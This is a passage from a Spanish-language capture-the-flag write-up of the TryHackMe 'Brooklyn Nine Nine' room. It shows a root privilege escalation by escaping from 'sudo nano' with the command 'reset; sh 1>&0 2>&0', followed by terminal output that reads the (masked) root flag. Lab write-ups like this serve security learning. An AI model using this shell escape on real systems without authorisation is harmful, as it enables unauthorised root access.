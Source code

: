 Vamos a ello:

* ejecutamos `sudo nano`&nbsp; en el terminal

```
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/BrooklynNineNine]
└─$ holt@brookly_nine_nine:~$ sudo nano
```

* se nos abre el editor *GNU nano 2.9.3*
* le damos a Ctrl + r y a continuación a Ctrl + x

![](/assets/posts/20220810/img20.png)

* a continuación de *Command to execute:* pegamos la última parte del comando `reset; sh 1>&0 2>&0`&nbsp; y damos a Enter

* nos aparece `#`&nbsp; al final del comando anterior (somos root)

* tecleamos `clear`&nbsp; + Enter. Se nos limpia el terminal y nos queda solo la almohadilla.

```console
# 
# whoami
root
# cd /root
# ls -la     
total 32
drwx------  4 root root 4096 May 18  2020 .
drwxr-xr-x 24 root root 4096 May 19  2020 ..
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwxr-xr-x  3 root root 4096 May 17  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 May 18  2020 .ssh
-rw-r--r--  1 root root  165 May 17  2020 .wget-hsts
-rw-r--r--  1 root root  135 May 18  2020 root.txt
# cat root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx

Enjoy!!
# 
```

Otra opción a lo anterior, una vez que tenemos la `#`&nbsp; de root, es dar varias veces al Enter:

![](/assets/posts/20220810/img21.png)

Esto va en gustos.

Pues hasta aquí la guía para resolver el room. Espero que os haya resultado útil.

Saludos ;)